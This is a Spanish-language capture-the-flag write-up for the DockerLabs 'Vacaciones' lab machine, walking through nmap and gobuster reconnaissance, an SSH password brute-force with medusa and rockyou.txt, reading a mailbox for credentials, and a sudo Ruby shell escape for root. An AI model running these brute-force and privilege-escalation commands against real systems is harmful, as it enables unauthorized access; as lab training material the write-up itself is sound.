 ```yaml
---
title: Vacaciones - DockerLabs
published: false
---
```

| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  | Muy Fácil   | Romabri | 

## Escaneo y Reconocimiento de puertos

Vamos a iniciar nuestro reconocimiento con un rápido escaneo de nmap.
![imagen](https://github.com/romabri/WriteUps/assets/51706860/1d5fc344-4aca-4a00-a985-f1d8eb5932a6)


`nmap -p- --open -sS -sC -sV --min-rate=5000 -vvv -n -Pn -oN escaneo 172.17.0.2`
- `-p-` - Busqueda de puertos abiertos
- `--open` - Enumera los puertos abiertos
- `-sS` - Es un modo de escaneo rapido
- `-sC-` - Que use un conjunto de scripts de reconocimiento
- `-sV` - Que encuentre la version del servicio abirto
- `--min-rate=5000` - Hace que el reconocimiento aun vaya mas rapido mandando no menos de 5000 paquetes
- `-n` - No hace resolución DNS
- `-Pn` - No hace ping
- `-vvv` - Muestra en pantalla a medida que encuentra puertos (Verbose)

Vemos que tiene el puerto 22 y el puerto 80 abierto

## Puerto 80

![imagen](https://github.com/romabri/WriteUps/assets/51706860/d819b9bf-b29d-4c70-901d-2e49022901f8)

La pagina web no muestra nada vamos a probar hacer fuzzing con Gobuster

Usamos `Gobuster` para hacer un reconocimiento web y ver que directorios podemos encontrar en dicho sitio.

`gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php`
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.20.10.5/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

Gobuster tampoco ha encontrado nada pero si inspeccionamos el codigo de la pagina nos encontramos algo

![imagen](https://github.com/romabri/WriteUps/assets/51706860/5ffd2f85-c447-4c29-a37c-4cb4fbc1b518)

Tenemos dos possibles usuarios `Juan` y `Camilo`

## Intrusión y Escalada de privilegios

Vamos hacer un ataque de fuerza burta al puerto SSH con `Medusa` de los dos usuarios para ver si encontramos las credenciales

`medusa -h 172.17.0.2 -u camilo,juan -P /usr/share/wordlists/rockyou.txt -M ssh`

Nos ha encontrado que camilo puede acceder via SSH con la contraseña password1

Vamos a ingresar

![imagen](https://github.com/romabri/WriteUps/assets/51706860/4b204202-b868-4016-95bd-d1ee324eb0ae)

Si hacemos busqueda de permisos SUID o SUDO no tenemos nada vamos a ver si hay un correo como decia el texto que hay en el codigo fuente de la pagina web.

nos dirigimos a `/var/mail/camilo`

Y nos encontramos el siguiente email

![imagen](https://github.com/romabri/WriteUps/assets/51706860/b1c0318a-2f61-4875-8cf0-87874e5bcd0d)

Tenemos una contraseña vamos a cambiar al usuario de juan

![imagen](https://github.com/romabri/WriteUps/assets/51706860/918afa8a-cdb0-4980-b7c6-67b8bc5f83c4)

Si ejecutamos sudo -l nos aparece que podemos usar Ruby como sudo 

Para escalar privilegios con este lo hacemos de la siguiente forma:

`ruby -e 'exec "/bin/sh"`

Ya hemos vulnerado la maquina!!!






